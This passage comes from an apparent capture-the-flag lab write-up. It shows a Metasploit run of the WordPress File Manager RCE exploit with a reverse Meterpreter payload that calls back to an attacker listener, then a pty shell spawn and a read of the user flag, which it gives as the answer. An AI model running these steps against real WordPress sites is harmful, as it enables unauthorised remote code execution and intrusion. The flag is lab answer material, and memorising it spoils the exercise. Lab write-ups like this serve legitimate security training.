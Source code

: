 ## What is the name of user that was running CMS?

Let's use this exploit to get a reverse meterpreter session.

~~~
msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set LHOST 10.8.50.72
LHOST => 10.8.50.72
msf6 exploit(multi/http/wp_file_manager_rce) > run

[*] Started reverse TCP handler on 10.8.50.72:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] 127.0.0.1:80 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/CMRdTO.php
[*] Sending stage (39282 bytes) to 10.10.221.123
[+] Deleted CMRdTO.php
[*] Meterpreter session 1 opened (10.8.50.72:4444 -> 10.10.221.123:58718) at 2021-05-03 19:42:28 +0200

meterpreter > getuid
Server username: cth (1000)
~~~

Answer: `cth`

## What is the user flag?

~~~
meterpreter > shell
Process 1735 created.
Channel 0 created.

python3 -c "import pty;pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

<ress/wp-content/plugins/wp-file-manager/lib/files$ cd /home
cd /home
cth@badbyte:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root root 4096 Mar 23 19:50 .
drwxr-xr-x 24 root root 4096 Mar 22 18:02 ..
drwxr-xr-x  4 cth  cth  4096 Mar 23 21:44 cth
drwxr-xr-x  8 root root 4096 Mar 23 21:30 errorcauser
cth@badbyte:/home$ ls -l cth
ls -l cth
total 4
-rw-rw-r-- 1 cth cth 38 Mar 23 21:36 user.txt
cth@badbyte:/home$ cat cth/user.txt            
cat cth/user.txt
THM{227906201d17d9c45aa93d0122ea1af7}
~~~
